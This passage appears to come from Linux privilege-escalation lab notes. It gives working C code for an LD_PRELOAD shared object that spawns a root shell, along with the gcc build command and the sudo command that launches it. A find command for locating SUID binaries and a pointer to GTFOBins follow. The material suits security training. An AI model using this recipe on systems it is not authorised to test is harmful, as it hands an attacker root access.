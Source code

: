 The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```


We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used. 

We need to run the program by specifying the LD_PRELOAD option, as follows;

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This will result in a shell spawn with root privileges. 

![ldpeload](img/ld_preload.png)

#### SUID

SUID (Set-user Identification) and SGID (Set-group Identification) allow files to be executed with the permission level of the file owner or the group owner, respectively.

You will notice these files have an “s” bit set showing their special permission level.

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with [GTFOBins](https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list https://gtfobins.github.io/#+suid).

Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.o
